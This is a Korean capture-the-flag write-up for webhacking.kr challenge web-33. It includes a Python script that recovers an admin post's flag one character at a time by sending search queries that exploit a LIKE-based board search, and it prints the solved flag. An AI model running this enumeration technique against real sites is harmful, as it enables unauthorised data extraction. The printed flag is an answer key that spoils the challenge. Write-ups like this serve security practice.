






# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

readme를 누르면 access denied라고 나온다.



SQLi도 통하는 지 모르겠다.



다만 게시판이 그렇듯 guest가 적은 글의 일부분인 he를 넣었을 때, 결과가 나오는 것을 봐서 like문을 이용했을 것이라고 추측한다.



또한, flag{라고 입력했을 때, admin 글이 나오는 것으로 보아 FLAG가 적혀있을 것 같다.



_나 %은 모든 글자를 나타낼 수 있으므로 마지막으로 빼거나 제거하여 FLAG를 알아내자.

```python
import requests

CHALLENGE   = 'https://webhacking.kr/challenge/web-33/'
SESSID      = '8b14bokub2931b4mokil0oq896'
headers     = {'Cookie':'PHPSESSID='+SESSID}

flag        = 'flag{'
ascii_set   = '0123456789abcdefghijklmnopqrstuvwxyz!"#$&\'()*+,-./:;<=>?@[\]^`{|}~_'

for i in range(64):
    old_len = len(flag)
    for c in ascii_set:
        data        = {'search':"{}".format(flag+c)}
        req         = requests.post(url=CHALLENGE, headers=headers, data=data)
        if 'admin' in req.text:
            flag += c
            print('flag = {}'.format(flag))
            break
    if len(flag) == old_len: break

[Output]
... 생략 ...
flag{himiko_toga_is_cute_dont_you_think_so?}
```

FLAG를 인증하여 점수를 획득하자.




# **FLAG**

**flag{himiko_toga_is_cute_dont_you_think_so?}**